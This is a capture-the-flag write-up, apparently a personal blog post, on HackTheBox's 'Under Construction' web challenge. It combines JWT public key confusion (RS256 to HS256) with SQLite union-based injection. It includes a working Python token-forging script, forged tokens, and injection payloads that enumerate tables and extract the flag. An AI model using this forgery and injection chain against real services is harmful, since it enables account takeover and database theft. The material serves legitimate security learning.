





# [](#intro)Introduction

This challenge is one of the best CTFs I've ever played. It's living proof of how simple things can unravel to reveal extraordinary complexity. HackTheBox always surprises me with its retired content.

It took me almost three days to complete it, which I divided into three main activities:

* **First day:** playing with the problem and reading the source code.
* **Second day:** researching JWT vulnerabilities on the internet, related to the challenge.
* **Third day:**  tweaking my payloads until I solved the challenge.

Let's take a look at what this CTF is about.


# [](#level-description)Challenge description

The challenge description is:

> Description
>
> A company that specialises in web development is creating a new site that is currently under construction. Can you obtain the flag?

Nothing too revealing. We know nothing else about our target. Let's start the machine and access it. 

Once started, we will receive an IP and port, like: `<ip>:<port>`. My first step was to establish a connection with it using `telnet`. When dealing with a challenge that specifies a port with its address, I usually start with telnet to get a glance of what I'm dealing with.

```bash
kaizen@celestial /tmp/htb $ telnet 159.65.20.166 32211
Trying 159.65.20.166...
Connected to 159.65.20.166.
Escape character is '^]'.
abc 
HTTP/1.1 400 Bad Request
Connection: close

Connection closed by foreign host.
```

This response indicates that the service is web-based, as it uses HTTP connections. Let's access it with our browser:


It seems like a register/login simple form. What to do now. Let's open up BurpSuite to see what's going on when we try to register a new user.




As we can see, we successfully registered "mula" and logged in. We also got a session cookie, to what it seems to be a JWT (JSON Web Token) token.

The challenge also lets us download some files. After downloading them, we can see that they are the source code of the page. 

```bash
kaizen@celestial /tmp/htb/underc $ unzip Under\ Construction.zip 
Archive:  Under Construction.zip
  inflating: index.js                
  inflating: package.json            
   creating: middleware/
  inflating: middleware/AuthMiddleware.js  
   creating: helpers/
  inflating: helpers/DBHelper.js     
  inflating: helpers/JWTHelper.js    
   creating: routes/
  inflating: routes/index.js         
   creating: views/
  inflating: views/auth.html         
  inflating: views/index.html
```

Upon a quick look at "index.js", we find this line of code:


Indicating we have an authentication middleware that validates the request server-side. Let's take a look at that now:



Which then leads us to the JWTHelper.js file, containing an implementation logic for JWT authentication:


Now that we have a basic overview of what we are dealing with, let's move on to our approach mindset.


# [](#approach)Approach mindset

As always, let's keep our mindset:

1. Understanding basic concepts
2. Understanding the problem
3. Crafting an attack
4. Solving

We've already done some really basic recon with the challenge files and a burpsuite. Let's get started!

## [](#mindset-step1)Step 1 - Understanding basic concepts

What are the things we need to know? First and foremost, we need to understand what JWTs are. 

### JSON Web Tokens
JWTs are tokens that define a self-secure way for transmitting information - as a JSON object - between users and the server. The form of a this JSON object consists of three parts separated by dots:

- Header

The header has two parts, the type or name of the token, which is usually JWT; and the signing algorithm, such as RSA or HMAC SHA256.

```json
{
    "typ": "JWT",
    "alg": "RS256",
}
```

- Payload

The payload consists of the information to be transferred. This is usually the username, a message, user role, etc.

```json
{
    "username": "user1",
    "isAdmin": false,
}
```

- Signature

And finally, the signature, which is the part of JWTs that ensures the token's integrity and authenticity. The format JWTs take is:

```
<header-encoded>.<payload-encoded>.<signature>
```

For more information, you can check it out [here](https://jwt.io/introduction).


## [](#mindset-step2)Step 2 - Understanding the problem

Now that we know a bit more about JWTs, let's go back to our application and check out the JWT issued when we logged in as "mula". Let's send the JWT generated by the server and use [https://jwt.io](https://jwt.io) to decode it:


In the payload we are receiving our username and an RSA public key, from what it seems. I also noticed that once we log in, our username is displayed on the webpage:



Ok. A few points to make here:

1. Every application that has user management must have a database and a way to communicate with this database.
2. The JWT sent to us as a cookie includes a public key, and the algorithm used for the signature is RS256.

Let's address each point individually:

### Database?
If we investigate index.js file from the challenge, we shall find that it is importing a DBHelper, which is also located at the helpers directory we found our JWTHelper.js file. We will then find DBHelper.js, which is where the server communicates with its database:


Upon a quick search, I've found [this](https://knowledge-base.secureflag.com/vulnerabilities/sql_injection/sql_injection_nodejs.html) page about the `get` method used to query the database. We can see in their example a similarity with the construction of `getUser` method in the DBHelper.js, indicating a SQL injection. This is because `username` is being passed directly into the SQL query, and not as a parameter. Back to index.js, we find that `getUser` is being called when someone access the / path, which then fetches the username through the JWT token. 

### Public Key?

This looked odd to me, so I had to do a good research. My first stop was at [HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555), which showed a probably attack vector. With further investigation, I found this [OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens) article, which explains this attack. The attack is called "Public Key Confusion". Some conditions must be met in order to make it work:

1. The server must expect a JWT to be signed with a public key (RSxxx or ESxxx).
2. The server must not check which algorithm the JWT is actually using, or accept both RSxxx and HSxxx.
3. The public key used to verify the JWT must be available.

The attack occurs because the server erroneously uses `jwt.verify` when the algorithm is switched from an RSA-based algorithm (RSxxx) to an HMAC-based algorithm (HSxxx). HMAC SHA256 is a symmetric encryption method, while RSA isn't. In this vulnerability, if the algorithms are swapped, `jwt.verify` will make use of the public key as HMAC secret key to decode the JWT and verify it, thus making the application to accept maliciously crafted tokens. 

Let's see if it is our case. The first condition is met: the JWT header algorithm reveals to be RS256. The second condition is also met: if we look at the JWTHelper.js file, we see that in the decoding part the function accepts both RS256 and HS256.


Let's check if the public key provided by the application through the JWT is a valid signature. To do this, we will use [https://jwt.io](https://jwt.io) again:


After pasting the public key - provided by the JWT - in the box above, we can see that this is the correct public key used to sign the token. Therefore, the third condition is also met.


## [](#mindset-step3)Step 3 - Crafting the attack

Alright! Now let's think of a way to attack the application. We have two vulnerabilities here: a SQL injection in the getUser function, which uses the username parameter provided by the JWT token without any sanitization; and the application is vulnerable to Public Key Confusion.

By combining these vulnerabilities, the attack strategy becomes clear: we can craft a JWT with a SQL injection payload in the username field. By exploiting the public key confusion, we can make the application accept our JWT. 

First, let's save the public key on our local machine, naming the file `pubkey.pem`. Remember, for this to work correctly, it's crucial to save the key exactly as shown below:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```

No new lines. And make sure to include both begin statements.

Let's build a Python script that will create a maliciously crafted and signed JWT with our `pubkey.pem`:

```python
#!/usr/bin/python
import sys
import base64
import json
import hmac
import hashlib

if __name__ == '__main__':
    argv = sys.argv[1:]
    argc = len(argv)
    if argc != 1:
        print("Usage: python exploit.py <payload>")
        exit(0)
    
    sqli = argv[0]
    
    # read pubkey file
    with open("./pubkey.pem", "r") as f:
        pk_contents = f.read()
    
    header = {"alg": "HS256", "typ":"JWT"}
    payload = {"username": sqli, "pk": pk_contents}

    # convert to base64
    encoded_h = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip("=")
    encoded_p = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip("=")

    # concatenate header and payload
    unsigned_jwt = f"{encoded_h}.{encoded_p}"

    # HMAC 256 signing
    signature = hmac.new(pk_contents.encode(), unsigned_jwt.encode(), hashlib.sha256).digest()
    encoded_s = base64.urlsafe_b64encode(signature).decode().rstrip("=")

    jwt = f"{unsigned_jwt}.{encoded_s}"
    print(jwt)
```

To use this script, we simply run `chmod +x exploit.py`, and then `./exploit.py "sqli payload"`, and it will generate a valid, maliciously crafted, JWT token for the application! To test if it is working, we will simply pass our username as a payload:

```bash
kaizen@celestial /tmp/htb $ ./exploit.py "mula"
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJ1c2VybmFtZSI6ICJtdWxhIiwgInBrIjogIi0tLS0tQkVHSU4gUFVCTElDIEtFWS0tLS0tXG5NSUlCSWpBTkJna3Foa2lHOXcwQkFRRUZBQU9DQVE4QU1JSUJDZ0tDQVFFQTk1b1RtOUROemNIcjhnTGhqWmFZXG5rdHNiajFLeHhVT296dzB0clA5M0JnSXBYdjZXaXBRUkI1bHFvZlBsVTZGQjk5SmM1UVowNDU5dDczZ2dWRFFpXG5YdUNNSTJob1VmSjFWbWpOZVdDclNyRFVob2tJRlpFdUN1bWVod3d0VU51RXYwZXpDNTRaVGRFQzVZU1RBT3pnXG5qSVdhbHNIai9nYTVaRUR4M0V4dDBNaDVBRXdiQUQ3MytxWFMvdUN2aGZhamdwekhHZDlPZ05RVTYwTE1mMm1IXG4rRnluTnNqTk53bzVuUmU3dFIxMldiMllPQ3h3MnZkYW1PMW4xa2YvU015cFNLS3ZPZ2o1eTBMR2lVM2plWE14XG5WOFdTK1lpWUNVNU9CQW1UY3oydzJrekJoWkZsSDZSSzRtcXVleEpIcmEyM0lHdjVVSjVHVlBFWHBkQ3FLM1RyXG4wd0lEQVFBQlxuLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tXG4ifQ.qE9eS5hAKyvxgcVyh4Ne26-GNklpuDVNli4VkDeSYRQ
```

This JWT must log us in as mula:


As we can see, we successfuly logged in, proving the public key confusion vulnerability is present! To check if the server is vulnerable to SQL injection, we will use the following payload:

```bash
kaizen@celestial /tmp/htb $ ./exploit.py "' union SELECT ;--"
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJ1c2VybmFtZSI6ICInIHVuaW9uIFNFTEVDVCA7LS0iLCAicGsiOiAiLS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS1cbk1JSUJJakFOQmdrcWhraUc5dzBCQVFFRkFBT0NBUThBTUlJQkNnS0NBUUVBOTVvVG05RE56Y0hyOGdMaGpaYVlcbmt0c2JqMUt4eFVPb3p3MHRyUDkzQmdJcFh2NldpcFFSQjVscW9mUGxVNkZCOTlKYzVRWjA0NTl0NzNnZ1ZEUWlcblh1Q01JMmhvVWZKMVZtak5lV0NyU3JEVWhva0lGWkV1Q3VtZWh3d3RVTnVFdjBlekM1NFpUZEVDNVlTVEFPemdcbmpJV2Fsc0hqL2dhNVpFRHgzRXh0ME1oNUFFd2JBRDczK3FYUy91Q3ZoZmFqZ3B6SEdkOU9nTlFVNjBMTWYybUhcbitGeW5Oc2pOTndvNW5SZTd0UjEyV2IyWU9DeHcydmRhbU8xbjFrZi9TTXlwU0tLdk9najV5MExHaVUzamVYTXhcblY4V1MrWWlZQ1U1T0JBbVRjejJ3Mmt6QmhaRmxINlJLNG1xdWV4SkhyYTIzSUd2NVVKNUdWUEVYcGRDcUszVHJcbjB3SURBUUFCXG4tLS0tLUVORCBQVUJMSUMgS0VZLS0tLS1cbiJ9.DucJUAHb7T7y4mjQltzMcgQaDodL1E7VcWAgruIiJnQ
```

This should produce a syntax error, since we are not selecting anything:



## [](#mindset-step4)Step 4 - Solving!

Alright! Now we need to solve this bad boy. We still don't know where the flag is, but with a SQL injection we are able to enumerate the database tables and hopefully find the flag. The following payload is used for identifying the number of columns of first select statement: `' union select 1,1,...,1-- -`, where the number of ones in the injection is the number of columns. We try this until we don't get an error from the application. After attempting with (1), (1,1) and (1,1,1), we find that the number of columns is 3. The payload is:

```bash
kaizen@celestial /tmp/htb $ ./exploit.py "' union select 1,1,1-- -"
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJ1c2VybmFtZSI6ICInIHVuaW9uIHNlbGVjdCAxLDEsMS0tIC0iLCAicGsiOiAiLS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS1cbk1JSUJJakFOQmdrcWhraUc5dzBCQVFFRkFBT0NBUThBTUlJQkNnS0NBUUVBOTVvVG05RE56Y0hyOGdMaGpaYVlcbmt0c2JqMUt4eFVPb3p3MHRyUDkzQmdJcFh2NldpcFFSQjVscW9mUGxVNkZCOTlKYzVRWjA0NTl0NzNnZ1ZEUWlcblh1Q01JMmhvVWZKMVZtak5lV0NyU3JEVWhva0lGWkV1Q3VtZWh3d3RVTnVFdjBlekM1NFpUZEVDNVlTVEFPemdcbmpJV2Fsc0hqL2dhNVpFRHgzRXh0ME1oNUFFd2JBRDczK3FYUy91Q3ZoZmFqZ3B6SEdkOU9nTlFVNjBMTWYybUhcbitGeW5Oc2pOTndvNW5SZTd0UjEyV2IyWU9DeHcydmRhbU8xbjFrZi9TTXlwU0tLdk9najV5MExHaVUzamVYTXhcblY4V1MrWWlZQ1U1T0JBbVRjejJ3Mmt6QmhaRmxINlJLNG1xdWV4SkhyYTIzSUd2NVVKNUdWUEVYcGRDcUszVHJcbjB3SURBUUFCXG4tLS0tLUVORCBQVUJMSUMgS0VZLS0tLS1cbiJ9.y9yJbvfy0ARuq-hmEuYxSGJHcF5h1q3BonCf77iHi_c
```

Now, we need to find which columns are being retrieved by the application. To do so, we change our payload to `' union select 1,2,3-- -`. Since the application returns the username back to us extracted from the token, this union select statement will print out the username column number. The respons to this paylod is:


As we can see, the username column is the second one. This is important to know because this column is what the application displays in clear text for us. If we want it to print the flag, we will need to inject the flag payload in this position.

Now, to retrieve all the tables, we need to select the table names in the 2nd column position. With help of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-table-name), we can use `' union select 1, group_concat(tbl_name), 3 from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'-- -`. This will fetch all tables in the database:


So the table name is `flag_storage`. Now, we need to extract the column name. This payload should work: `' union select 1, sql, 3 from sqlite_master where type!='meta' and sql not null and name='flag_storage'-- -`:


Now, to retrieve the flag, we simply use this paylaod `' union select 1, top_secret_flaag, 3 from flag_storage-- -`:



And there is our flag!!!

# [](#conclusions)Conclusion

This CTF provided an awesome experience. It involved two vulnerabilities, requiring careful and critical thinking. We learned a lot about SQLite injection and one of the many JWT vulnerabilities that exist out there. This challenge is an example of how things can go wrong due to a chain of vulnerabilities.

I hope you liked this write-up and learned something new. As always, don't forget to do your **research!**

<a href="/">Go back</a>

